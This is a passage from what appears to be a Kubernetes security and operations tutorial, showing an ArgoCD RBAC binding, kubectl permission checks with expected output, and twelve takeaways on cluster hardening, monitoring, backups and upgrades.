subjects:
  - kind: ServiceAccount
    name: argocd-application-controller
    namespace: argocd                   # WHY: ArgoCD's service account in its own namespace
roleRef:
  kind: Role
  name: production-deployer
  apiGroup: rbac.authorization.k8s.io
```

```
SYNTAX:
  kubectl auth can-i --list --as=system:serviceaccount:argocd:argocd-application-controller -n production

EXPECTED OUTPUT:
  Resources                              Non-Resource URLs   Resource Names   Verbs
  deployments.apps                       []                  []               [get list patch update]
  configmaps                             []                  []               [get list create update patch]
  secrets                                []                  []               [get list]

SYNTAX:
  kubectl auth can-i delete deployments -n production --as=developer@example.com

EXPECTED OUTPUT:
  no
```

---

## Key Takeaways

1. **CIS Benchmarks and kube-bench** provide a standardized security audit of 200+ checks — run it monthly and track the trend of pass/fail counts.

2. **Pod Security Standards (Restricted)** should be enforced on all production namespaces — they prevent privilege escalation, host access, and running containers as root.

3. **Network Policy default deny** is the single most important network security measure — without it, any compromised pod can reach any other pod in the cluster.

4. **Image scanning with Trivy** catches known CVEs at build time. Integrate it into CI pipelines and admission controllers to block vulnerable images from production.

5. **Falco runtime security** detects malicious behavior inside running containers — shell access, binary downloads, sensitive file reads — that static scanning cannot catch.

6. **Secret encryption at rest** ensures that etcd backups and snapshots do not expose plaintext credentials. Verify encryption is working by inspecting raw etcd data.

7. **The four golden signals** (latency, traffic, errors, saturation) cover 95% of production monitoring needs. Build dashboards and alerts around these four metrics.

8. **Audit logging** records every API call for security forensics and compliance. Configure it to log write operations and exec/attach at high detail, and skip noisy read-only health checks.

9. **Velero backups** should run daily on production namespaces with 30-day retention. Test restores regularly — a backup you have never restored is not a backup.

10. **Node pool rotation** is the safest upgrade strategy — create a new pool, drain old nodes, verify, then delete the old pool. Never upgrade nodes in-place in production.

11. **DR runbooks** must be written before you need them. Store them where engineers can find them during an outage (ConfigMap, wiki, or internal docs). Review and test quarterly.

12. **RBAC least privilege** means developers get read-only access to production, CI/CD gets update-only access to deployments, and only SREs get full admin access. No exceptions.
